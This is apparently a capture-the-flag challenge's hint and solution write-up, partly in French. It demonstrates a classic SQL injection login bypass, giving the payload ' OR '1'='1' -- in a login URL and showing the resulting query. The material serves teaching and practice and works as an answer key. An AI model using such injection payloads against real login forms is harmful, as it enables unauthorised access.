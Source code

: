 Hint (à fournir aux joueurs)

Testez les champs avec des quotes ' et essayez username=' OR '1'='1 etc.

Regarder la requête SQL dans la réponse d'erreur peut aider.

Solution / write-up (à mettre dans /ctf/solutions/sqli.md)

Go to /login?username=' OR '1'='1' -- &password=anything

Query becomes SELECT username FROM users WHERE username = '' OR '1'='1' -- ' AND password='anything';

Condition OR '1'='1' always true → returns first user → then go to /flag to read the flag (some CTF designs require reaching an admin page; here flag endpoint accessible after exploitation).